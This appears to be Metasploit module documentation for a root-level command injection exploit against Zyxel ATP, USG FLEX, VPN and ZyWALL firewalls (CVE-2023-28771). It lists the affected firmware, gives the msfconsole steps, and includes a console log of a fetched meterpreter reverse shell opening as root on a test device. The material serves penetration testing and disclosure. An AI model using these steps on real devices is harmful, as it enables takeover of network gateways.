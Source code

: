 ## Vulnerable Application
This module exploits a remote unauthenticated command injection vulnerability in the Internet Key Exchange
(IKE) packet decoder over UDP port 500 on the WAN interface of several Zyxel devices. The affected devices are
as follows:

* ATP (Firmware version 4.60 to 5.35 inclusive)
* USG FLEX (Firmware version 4.60 to 5.35 inclusive),
* VPN (Firmware version 4.60 to 5.35 inclusive)
* ZyWALL/USG (Firmware version 4.60 to 4.73 inclusive).

The affected devices are vulnerable in a default configuration and command execution is with root privileges. For a
full technical analysis of the vulnerability read the
[Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/N3i8dxpFKS/cve-2023-28771/rapid7-analysis).

## Testing
A physical device is required for testing. The device must be running a vulnerable firmware version prior to the
vendor patch. A Zyxel USG FLEX 100 device was used during development and testing of this Metasploit module.

The attacker must be able to send UDP data to port 500 on the WAN interface of the affected network device.

## Verification Steps
1. Start msfconsole
2. `use exploit/linux/misc/zyxel_ike_decoder_rce_cve_2023_28771`
3. `set RHOST <TARGET_WAN_IP>`
4. `set LHOST eth0`
5. `set FETCH_SRVHOST eth0`
6. `check`
7. `exploit`
8. The default target `0` uses a `cmd/linux/http/mips64/meterpreter_reverse_tcp` payload. A meterpreter session with
root privileges should be created.

## Scenarios

### Default Target (Zyxel USG FLEX 100)
```
msf > use exploit/linux/misc/zyxel_ike_decoder_rce_cve_2023_28771
[*] Using configured payload cmd/linux/http/mips64/meterpreter_reverse_tcp
msf exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) >
msf exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > set RHOSTS 192.168.86.40
RHOSTS => 192.168.86.40
msf exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > set LHOST eth0
LHOST => 192.168.86.42
msf exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > set FETCH_SRVHOST eth0
FETCH_SRVHOST => 192.168.86.42
msf exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > show options 

Module options (exploit/linux/misc/zyxel_ike_decoder_rce_cve_2023_28771):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.86.40    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   500              yes       The target port (UDP)


Payload options (cmd/linux/http/mips64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      luAxlQjv         no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST       192.168.86.42    yes       Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > check
[*] 192.168.86.40:500 - The service is running, but could not be validated. IKE detected but device vendor and service version are unknown.
msf exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.40:48310) at 2023-06-09 09:24:32 +0100

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.86.40
OS           :  (Linux 3.10.87-rt80-Cavium-Octeon)
Architecture : mips64
BuildTuple   : mips64-linux-muslsf
Meterpreter  : mips64/linux
meterpreter > cat /zyinit/fwversion 
KERNEL_VERSION=3.10.87
FIRMWARE_VER=5.20(ABUH.0)520-r102903-k3
CAPWAP_VER=1.00.04
COMPATIBLE_PRODUCT_MODEL_0=E15D
COMPATIBLE_PRODUCT_MODEL_1=FFFF
COMPATIBLE_PRODUCT_MODEL_2=FFFF
COMPATIBLE_PRODUCT_MODEL_3=FFFF
COMPATIBLE_PRODUCT_MODEL_4=FFFF
MODEL_ID=USG FLEX 100
KERNEL_BUILD_DATE=2022-01-04 16:14:50
BUILD_DATE=2022-01-04 18:13:20
FSH_VER=1.0.0
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.86.40 - Meterpreter session 1 closed.  Reason: Died
msf exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > 
```
